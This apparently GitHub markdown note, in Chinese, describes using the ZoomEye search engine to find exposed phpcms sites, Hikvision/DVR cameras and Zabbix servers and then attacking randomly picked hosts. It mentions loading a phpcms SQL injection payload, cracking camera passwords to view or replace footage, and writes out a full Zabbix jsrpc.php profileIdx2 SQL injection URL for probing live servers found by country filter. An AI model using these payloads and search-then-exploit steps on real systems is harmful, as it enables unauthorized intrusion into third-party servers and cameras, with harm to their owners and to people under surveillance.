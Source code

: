 # 基于zoomeye的调研实验
*** 
## 利用ZoomEye探索互联网hikvision摄像头
* 一个之前phpcmsv9 会员登录中心SQL注入漏洞 的例子，结合zoomeye快速黑掉网站，当然现在已经不可以用了，我实验的时候提示会话已过期，已经修补过了。
* ![]("1.PNG")
* 用zoomeye搜索phpcms,这样出来的就是包含这个字符串的页面的主机IP，随机打开一个，使用火狐的hackbar插件，加载payload，运行就可以达到目的。
* ![]("2.PNG")
* 类似找视频设备，可以DVRDVS-Webs
* ![]("3.PNG")
* ![]("4.PNG")
* 如果有比较丰富的经验，可以轻松破解密码，做到查看摄像甚至替换内容。

## 利用寻找可以利用0day漏洞进行入侵的系统
* 关于今年一个爆出的0 day漏洞：zabbix的jsrpc的profileIdx2参数存在insert方式的SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统，也可通过script等功能轻易直接获取zabbix服务器的操作系统权限。
* 也可以利用zoomeye来进行测试：搜索：zabbix   /country:"China" 可以自己加地区
* ![]("5.PNG")
* 下面是查询漏洞是否存在的步骤：
	* 打开后再URL后面加上一段：
	jsrpc.phpsid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids5B232975D=23297&action=showlatest&filter=&filter_task=& mark_color=1
	* 随机访问一个IP测试，会出现如下字段：
	* ![]("6.PNG")
	* 经过多次寻找，发现源码中出现如下MySQL报错，则可以认定存在该漏洞：
	* ![]("7.PNG")
